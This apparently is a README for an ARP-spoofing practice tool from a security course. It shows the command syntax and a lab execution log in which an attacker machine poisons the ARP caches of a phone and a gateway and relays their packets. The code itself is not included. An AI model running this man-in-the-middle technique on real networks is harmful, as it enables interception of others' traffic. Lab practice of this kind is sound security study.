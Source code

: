 # arp-spoofing
arp spoofing practice
```
syntax : arp-spoof <interface> <sender ip 1> <target ip 1> [<sender ip 2> <target ip 2>...]
sample : arp-spoof wlan0 192.168.10.2 192.168.10.1 192.168.10.1 192.168.10.2
```
### Ref
[About ARP](https://oxdjww.tistory.com/entry/About-ARP)

------------------------
## Sample execution
### Used devices
attacker (linux guest os) <br>
sender (iphone, KITRI_DEV) <br>
target (KITRI_DEV, iphone) <br>

### Log
```
oxdjww@oxdjww-virtual-machine:~/Desktop/gilgil/arp-spoofing$ sudo ./arp-spoof ens33 10.1.1.150 10.1.1.1 10.1.1.1 10.1.1.150

----------------------------------------
[*] arp-spoof #1..
----------------------------------------

----------------------------------------
[*] get host info..
----------------------------------------
[+] attackerIp   : 10.1.1.96
[+] attackerMac  : 00:0C:29:C9:33:3C

----------------------------------------
[*] get sender Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] senderIp    : 10.1.1.150
[+] senderMac   : AA:CA:47:90:49:E0

----------------------------------------
[*] get target Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] targetIp    : 10.1.1.1
[+] targetMac   : 88:36:6C:9F:83:3C

----------------------------------------
[*] arp-spoof #2..
----------------------------------------

----------------------------------------
[*] get host info..
----------------------------------------
[+] attackerIp   : 10.1.1.96
[+] attackerMac  : 00:0C:29:C9:33:3C

----------------------------------------
[*] get sender Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] senderIp    : 10.1.1.1
[+] senderMac   : 88:36:6C:9F:83:3C

----------------------------------------
[*] get target Info..
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
[+] targetIp    : 10.1.1.150
[+] targetMac   : AA:CA:47:90:49:E0

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------

----------------------------------------
[*] Ip packet relaying succeeded!
----------------------------------------

----------------------------------------
[*] Ip packet relaying succeeded!
----------------------------------------

----------------------------------------
[*] Arp packet sending succeeded!
----------------------------------------
...
```

### References
#### Spoofed Ip packet (ICMP Request)
![infected_request](https://github.com/bob-12th/arp-spoofing/assets/102507306/0e4dc282-ff32-478b-955d-998721bd7c4e)
#### Relaying Ip packet (ICMP Request)
![relay_request](https://github.com/bob-12th/arp-spoofing/assets/102507306/082ba524-0ce0-4804-b27f-345e6c36a70c)
#### Receiving Ip packet (ICMP Reply)
![reply](https://github.com/bob-12th/arp-spoofing/assets/102507306/ea66d68b-0e9c-47b2-b110-545b211fbd04)

